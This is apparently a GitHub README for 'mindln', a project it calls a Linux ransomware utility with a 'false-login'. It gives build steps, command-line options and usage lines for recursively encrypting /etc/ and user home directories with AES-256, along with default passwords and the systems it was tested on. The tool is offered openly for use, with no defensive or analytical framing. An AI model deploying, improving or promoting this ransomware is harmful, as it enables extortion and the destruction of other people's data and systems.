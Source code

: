 # mindln
x86_64 linux ransomware utility with false-login

# make
$ make

# usage
$ chmod +x mindln-*

\# ./mindln-encryptor.sh

\# ./mindln-decryptor.sh

\# ./encryptor -p /etc/ -k mindln

\# ./decryptor -p /etc/ -k mindln

$ ./encryptor -f file

$ ./decryptor -f file

# encryptor options
```
-f    encrypt a file
-p    encrypt all files in given path
-k    custom encryption passwd
-u    encrypt user home directory
```

# decryptor options
```
-f    decrypt a file
-p    decrypt all files in given path
-k    custom decryption passwd
```

# features
aes-256 encryption in cbc mode

passwd-based key derivation using pbkdf2-hmac-sha256

recursive directory encryption

random iv and salt generation per file

# notes
make your own configuration in src/config.h

configure your own configuration on mindln-encryptor.sh and mindln-decryptor.sh

default suffix is .mindln

default passwd for false-login is mindln

default passwd is mindln, this is a key

# what was it tested on
arch linux 2025-07-01, x86_64

gentoo linux, musl, x86_64

# examples
<img width="576" height="426" alt="image" src="https://github.com/user-attachments/assets/42ea47c8-f11d-4403-9a22-1494760e1447" />

<img width="522" height="312" alt="image" src="https://github.com/user-attachments/assets/f88347be-577c-4bbf-b189-eb147b1fac7b" />

